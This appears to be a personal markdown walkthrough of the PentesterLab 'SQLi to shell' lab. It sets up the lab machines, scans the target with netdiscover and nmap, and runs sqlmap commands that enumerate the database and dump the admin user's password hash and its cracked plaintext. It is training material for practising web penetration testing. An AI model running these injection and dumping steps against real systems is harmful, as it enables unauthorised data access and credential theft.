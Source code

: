 # PentesterLab

## Setup

- Target
  - Hardware
    - 1 cpu 1 core
    - 1 eth0 (nat)
    - 512 MB RAM
    - ISO (sqli_to_shell)
- Kali
  - Hardware
    - 1 cpu 2 cores
    - 1 eth0 (nat)
    - 1024 MB RAM
    - HDD 20 GB
  - Setup
    - username : mon
    - password : Pa$$w0rd
  - Post installation setup
    - `sudo nano /etc/network/interfaces` and replace ens33 with eth0
    - `sudo apt update && sudo apt upgrade`
    - `sudo systemctl start ssh`

## Footprinting and fingerprinting

### Netdiscover

```bash
$ sudo apt install netdiscover
$ sudo net discover

------------------------------

Currently scanning: 172.16.215.0/16   |   Screen View: Unique Hosts

 29 Captured ARP Req/Rep packets, from 4 hosts.   Total size: 1740
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname
 -----------------------------------------------------------------------------
 192.168.44.1    00:50:56:c0:00:08     26    1560  VMware, Inc.
 192.168.44.2    00:50:56:fc:6c:b0      1      60  VMware, Inc.
 192.168.44.130  00:0c:29:f4:6d:14      1      60  VMware, Inc.
 192.168.44.254  00:50:56:e7:2c:fd      1      60  VMware, Inc.

```

### Nmap

```bash
$ sudo apt install nmap
$ sudo nmap -sV -O 192.168.44.130

------------------------------

Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-02 13:44 BST
Nmap scan report for 192.168.44.130
Host is up (0.0011s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.5p1 Debian 6+squeeze2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.2.16 ((Debian))
MAC Address: 00:0C:29:F4:6D:14 (VMware)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.32 - 2.6.35
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.12 seconds
```

Port 80 open => web server

server root in /var/www

- .htaccess [403]
- .htpasswd [403]
- server-status
- cat.php (SQL injection GET request id parameter, uses Mysql)
- css/
- admin/
  - uploads/
- images/

### SQLmap

```bash
sudo apt install sqlmap

sqlmap --url 'http://192.168.44.130/cat.php?id=1' --dbs

[15:38:28] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 6 (squeeze)
web application technology: PHP 5.3.3, Apache 2.2.16
back-end DBMS: MySQL >= 5.0
[15:38:28] [INFO] fetching database names
available databases [2]:
[*] information_schema
[*] photoblog


sqlmap --url 'http://192.168.44.130/cat.php?id=1' --tables -D photoblog

[15:42:40] [INFO] fetching tables for database: 'photoblog'
Database: photoblog
[3 tables]
+------------+
| categories |
| pictures   |
| users      |
+------------+

sqlmap --url 'http://192.168.44.130/cat.php?id=1' --columns -T users -D photoblog

[15:43:37] [INFO] fetching columns for table 'users' in database 'photoblog'
Database: photoblog
Table: users
[3 columns]
+----------+--------------+
| Column   | Type         |
+----------+--------------+
| id       | mediumint(9) |
| login    | varchar(50)  |
| password | varchar(50)  |
+----------+--------------+

sqlmap --url='http://192.168.44.130/cat.php?id=1' --dump -T users -D photoblog

Database: photoblog
Table: users
[1 entry]
+----+-------+---------------------------------------------+
| id | login | password                                    |
+----+-------+---------------------------------------------+
| 1  | admin | 8efe310f9ab3efeae8d410a8e0166eb2 (P4ssw0rd) |
+----+-------+---------------------------------------------+

```